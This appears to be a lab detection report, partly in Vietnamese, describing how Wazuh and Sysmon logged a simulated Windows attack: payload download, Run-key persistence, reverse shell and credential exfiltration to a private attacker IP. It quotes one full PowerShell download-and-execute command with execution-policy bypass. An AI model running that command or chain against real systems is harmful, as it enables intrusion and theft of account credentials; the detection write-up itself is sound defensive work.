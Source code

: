 # Wazuh Detection

- Victim host: DESKTOP-O674VPH (`192.168.200.137`, user `DESKTOP-O674VPH\noname`)
- Attacker host: `192.168.200.132` (HTTP :8000, TCP :4444)
- Date (UTC): `2025-08-14 ~15:56:57 → 15:57:47`
- Logging: `Wazuh`, `Sysmon`, `Powershell`

## Executive Summary

- Tải một PowerShell payload từ `http://192.168.200.132:8000/Test.ps1` và ghi xuống `C:\Users\noname\AppData\Local\Temp\payload.ps1`.
- Thực thi payload với -ep bypass.
- Cài `persistence` qua `Run key: OfficeUpdate`.
- Thiết lập reverse shell `TCP` tới `192.168.200.132:4444`.
- Gửi HTTP POST về `192.168.200.132:8000/` với dữ liệu ASCII chứa thông tin tài khoản `BANK và FB (Facebook)` → `Exfiltration`.
- Mức độ: __Critical__ `Execution + Persistence + C2 + Data Exfil`.

## Details

### 1. Aug 14, 2025 - 15:56:58.071

- Event ID: `4103 - PowerShell Operational`
- Rule ID: `100206`
- Rule description: `Invoke Webrequest executed, possible download cradle detected.`
- Detail: `Command Invocation: Invoke-WebRequest`: `http://192.168.200.132:8000/Test.ps1' -OutFile $env:TEMP\payload.ps1; powershell -ep bypass -f $env:TEMP\payload.ps1`
![image](images/7.png)
